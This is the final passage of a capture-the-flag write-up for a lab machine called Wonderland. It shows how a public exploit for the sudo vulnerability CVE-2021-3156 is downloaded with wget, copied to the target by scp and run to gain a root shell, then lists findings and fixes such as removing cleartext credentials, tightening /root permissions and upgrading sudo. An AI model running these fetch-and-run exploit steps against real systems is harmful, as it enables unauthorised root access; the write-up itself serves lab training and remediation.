 A public exploit is available [here](https://github.com/worawit/CVE-2021-3156). Based on our OS version, the recommended file is `exploit_nss.py`.

Download the exploit and transfer it to Wonderland.
```
wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py
scp exploit_nss.py alice@10.10.221.97:/home/alice/exploit_nss.py
```

Run the exploit to get root.
```
chmod +x exploit_nss.py
python3 exploit_nss.py
```

<img src="images/privesc/root_shell.png" alt="root shell" width="35%" height="35%"> <br>

The flag is found at `/home/alice/root.txt`.

## Findings and Recommendations
**Unsecured Credentials**

Cleartext credentials were found and used for SSH access in two instances:
- The username and password for `alice` was located in source code of the `/r/a/b/b/i/t` page. This was used for initial access.
- The password for `hatter` was found in a text file in their home directory.

Consider storing credentials in a keyvault as well as utilizing multi-factor or password-less authentication for SSH.

**Insecure Directory Permissions**

Insecure permissions allow a low-privilege user to access files in the root (`/root`) directory. Ensure that only root users have access to the directory.

**Vulnerable Application**

Upgrade sudo to version 1.8.21p2-3ubuntu1.4 or above. See [this page](https://ubuntu.com/security/CVE-2021-3156) information on other Ubuntu releases.
